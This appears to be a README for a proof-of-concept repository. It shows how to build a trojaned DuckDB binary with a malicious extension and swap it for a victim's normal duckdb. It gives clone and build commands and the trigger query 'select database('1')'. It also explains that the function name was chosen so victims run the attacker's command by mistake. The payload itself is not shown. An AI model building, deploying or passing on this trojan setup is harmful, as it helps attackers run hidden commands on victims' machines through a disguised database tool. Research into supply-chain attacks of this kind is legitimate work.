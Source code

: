 # Install vcpkg
```shell
git clone https://github.com/Microsoft/vcpkg.git
./vcpkg/bootstrap-vcpkg.sh
export VCPKG_TOOLCHAIN_PATH=`pwd`/vcpkg/scripts/buildsystems/vcpkg.cmake
```

## Clone the malicious extension
```shell
git clone --recurse-submodules https://github.com/Tu0Laj1/database_test.git
cd database_test
```

### Build the malicious extension
Now to build the malicious extension, run:
```sh
make
```

## Running the malicious duckdb
/database_test/build/release/duckdb, a malicious duckdb containing malicious extension programs, can be copied and run on any machine. Attackers can replace the victim's normal duckdb with this malicious duckdb
```sh
cd database_test
./build/release/duckdb
```

### Running the malicious extension
When the victim runs a malicious duckdb and the executed SQL statement contains the function name defined by the attacker, the malicious command will be executed. (Why did I choose 'database'? Because 'database' is a hash conversion function included in many other databases, but it is not available in duckdb, so the probability of victims mistakenly triggering malicious commands will be increased.)
```sh
select database('1');
```
